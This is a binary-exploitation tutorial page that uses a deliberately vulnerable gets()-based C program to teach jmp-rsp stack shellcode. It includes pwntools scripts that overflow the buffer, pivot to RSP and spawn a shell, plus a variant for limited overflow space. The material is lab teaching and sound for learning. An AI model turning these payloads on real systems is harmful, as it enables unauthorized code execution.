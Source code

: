# Using RSP

## Source

{% file src="../../../.gitbook/assets/rsp\_shellcode.zip" caption="Shellcode with RSP" %}

```c
#include <stdio.h>

int test = 0;

int main() {
    char input[100];

    puts("Get me with shellcode and RSP!");
    gets(input);

    if(test) {
        asm("jmp *%rsp");
        return 0;
    }
    else {
        return 0;
    }
}
```

You can ignore most of it as it's mostly there to accomodate the existence of `jmp rsp` - we don't actually want it called, so there's a negative `if` statement.

{% hint style="info" %}
The chance of `jmp esp` gadgets existing in the binary are incredible low, but what you often do instead is find a _sequence of bytes that code for jmp rsp_ and jump there - `jmp rsp` is `\xff\xe4` in shellcode, so if there's is any part of the executable section with bytes in this order, they can be used as if they are a `jmp rsp`.
{% endhint %}

## Exploitation

Try to do this yourself first, using the explanation on the previous page. Remember, RSP points at the thing _after_ the return pointer once `ret` has occured, so your shellcode goes _after_ it.

### Solution

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

# we use elf.search() because we don't need those instructions directly,
# just anu sequence of \xff\xe4
jmp_rsp = next(elf.search(asm('jmp rsp')))

payload = flat(
    'A' * 120,                # padding
    jmp_rsp,                 # RSP will be pointing to shellcode, so we jump there
    asm(shellcraft.sh())     # place the shellcode
)

p.sendlineafter('RSP!\n', payload)
p.interactive()
```

## Limited Space

You won't always have enough overflow - perhaps you'll only have 7 or 8 bytes. What you can do in this scenario is make the shellcode after the RIP equivalent to something like

```text
sub rsp, 0x20
jmp rsp
```

Where `0x20` is the offset between the current value of RSP and the start of the buffer. In the buffer itself, we put the main shellcode. Let's try that!

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

jmp_rsp = next(elf.search(asm('jmp rsp')))

payload = b'A' * 120
payload += p64(jmp_rsp)
payload += asm('''
    sub rsp, 10;
    jmp rsp;
''')

pause()
p.sendlineafter('RSP!\n', payload)
p.interactive()
```

The `10` is just a placeholder. Once we hit the `pause()`, we attach with radare2 and set a breakpoint on the `ret`, then continue. Once we hit it, we find the beginning of the `A` string and work out the offset between that and the current value of RSP - it's `128`!

### Solution

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

jmp_rsp = next(elf.search(asm('jmp rsp')))

payload = asm(shellcraft.sh())
payload = payload.ljust(120, b'A')
payload += p64(jmp_rsp)
payload += asm('''
    sub rsp, 128;
    jmp rsp;
''')        # 128 we found with r2

p.sendlineafter('RSP!\n', payload)
p.interactive()
```

We successfully pivoted back to our shellcode - and because all our addresses are relative, it's completely reliable! ASLR beaten with pure shellcode.

{% hint style="warning" %}
This is harder with PIE as the location of `jmp rsp` will change, so you might have to leak PIE base!
{% endhint %}

